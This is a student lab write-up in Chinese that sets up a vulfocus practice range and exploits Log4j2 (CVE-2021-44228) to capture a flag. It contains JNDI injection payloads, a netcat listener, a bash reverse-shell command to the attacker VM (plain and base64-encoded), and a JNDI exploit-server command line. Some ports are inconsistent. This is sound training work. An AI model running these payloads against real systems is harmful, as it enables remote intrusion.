










# **2023暑期网络安全攻防实践记录报告**

## 📖**负责工作**

- 实验环境搭建
- 作为蓝队对漏洞攻击行为进行持续检测和威胁识别，并进行修复

## 🔧实践过程

### 环境搭建

#### 虚拟机配置

VirtualBox kali-linux镜像多重加载，构建攻击者主机和受害者主机，两个主机的网卡配置均为`网络地址转换(NAT)`+`Host-only网卡`



两台虚拟机的ip地址如下：

|  虚拟机  |     ip地址     |
| :------: | :------------: |
| attacker | 192.168.56.105 |
|  victim  | 192.168.56.107 |





#### vulfocus

受害者主机克隆老师的[仓库](https://github.com/c4pr1c3/ctf-games)

```bash
git clone https://github.com/c4pr1c3/ctf-games.git
```

安装Docker Compose

```bash
sudo apt update && sudo apt install -y docker.io docker-compose jq
```

为提高下载速度，更换kali镜像源和docker镜像源

- **kali镜像源**

  ```bash
  sudo vim /etc/apt/sources.list
  ```

  国内镜像源地址：

  ```
  #aliyun 阿里云
  
  deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
  
  deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
  
  
  # ustc 中科大
  
  deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
  
  deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
  
  
  # tsinghua 清华
  
  deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
  
  deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
  
  
  #浙大源
  
  deb http://mirrors.zju.edu.cn/kali kali-rolling main contrib non-free
  
  deb-src http://mirrors.zju.edu.cn/kali kali-rolling main contrib non-free
  ```

  

  修改后执行`sudo apt update`更新软件源

- docker源

  在`/etc/docker/`目录下创建`daemon.json` 文件

  ```bash
  cd /etc/docker
  touch daemon.json
  ```

  写入配置

  ```bash
  {
      "registry-mirrors" : [
      "https://registry.docker-cn.com",
      "http://hub-mirror.c.163.com",
      "https://docker.mirrors.ustc.edu.cn",
      "https://cr.console.aliyun.com",
      "https://mirror.ccs.tencentyun.com"
    ]
  }
  ```

  重启服务

  ```bash
  systemctl daemon-reload
  systemctl restart docker.service
  ```

  查看配置是否成功

  ```bash
  sudo docker info
  ```

  

<br>

将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令

```bash
sudo usermod -a -G docker ${USER}
sudo su
```



进入`fofapro/vulfocus`目录下执行老师封装好的脚本

```bash
bash start.sh
```



宿主机访问`192.168.56.107:80`


`Username`和`Password`均为`admin`



<br>

### Log4j2远程代码执行漏洞存在性验证和漏洞利用

#### 找到靶标访问入口

镜像管理中搜索`Log4j2远程命令执行（CVE-2021-44228）`镜像并下载，完成后启动



浏览器访问该地址`192.168.56.107:44524`



#### 检测漏洞存在性

- 查看容器名称

  ```bash
  docker ps
  ```

  

  实验环境访问端口为44524，故查看到容器名称为`optimistic_blackwell`

- 进入容器

  ```bash
  docker exec -it optimistic_blackwell bash
  ```

  

  

  查看到容器目录下有`demo.jar`文件，拉取到容器的宿主机

  ```bash
  # docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
  sudo docker cp optimistic_blackwell:/demo/demo.jar ./
  ```

  

- 反编译

  使用[jadx](https://github.com/skylot/jadx/releases/tag/v1.4.7)反编译demo.jar

  

源码中有名为`Log4j2RceApplic`的类，验证该漏洞存在

#### 验证漏洞可利用性

- 使用 `PoC` 手动测试

>"PoC" 是 "Proof of Concept" 的缩写，意为"概念验证"。在安全领域，PoC 手动测试通常用于验证潜在的漏洞或安全问题。测试人员会尝试利用已知的漏洞或攻击技术来测试系统的安全性，并验证是否存在潜在的风险。这种测试方法可以帮助发现和修复系统中的安全漏洞，以提高系统的安全性。

访问http://dnslog.cn/获取专属随机子域名`k5o9u7.dnslog.cn`


浏览器访问`192.168.56.107:28490/hello?payload=111`地址，使用Burp Suite进行抓包，修改GET请求的payload参数

```
# ldap://dnslog获取的随机域名/随便填
payload=${jndi:ldap://k5o9u7.dnslog.cn/exp}
```

同时对payload字段进行**编码**，否则直接访问会导致400错误


在DNSLog网站成功接收到解析记录


#### 漏洞利用

攻击者主机attacker上下载[`JNDIExploit`工具](https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)

```bash
https://github.com/bkfish/Apache-Log4j-Learning.git
```

解压

```
unzip JNDIExploit.v1.2.zip
```

攻击者主机attacker启动777端口，等待受害者主机victim反弹回连getshell

```bash
nc -l -p 7777
```


应用工具JNDI-Injection-Exploit搭建服务，格式：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
```

这里的命令是想要靶机运行的命令，-A后放的是发出攻击的电脑的ip，也是存放-C后“命令”的ip地址。

构造反弹shell的payload

```bash
bash -i >& /dev/tcp/192.168.56.105/7777 0>&1
```

将其进行base64加密

```tex
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=
```

执行JNDI-Injection-Exploit

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.56.105
```


使用Burp Suite进行抓包，修改`GET 192.168.56.107:28490/hello?payload=111`的payload参数为上图框选的内容并进行编码

```
${jndi:rmi://192.168.56.105:1099/5ekovi}
```


发送后，即可发现攻击者主机的监听窗口反弹shell


查看flag

```bash
ls /temp
```


```bash
flag-{bmh20c56a41-fc29-44f1-9da4-0e3b7bbfb8ff}
```

在管理界面提交该flag通过


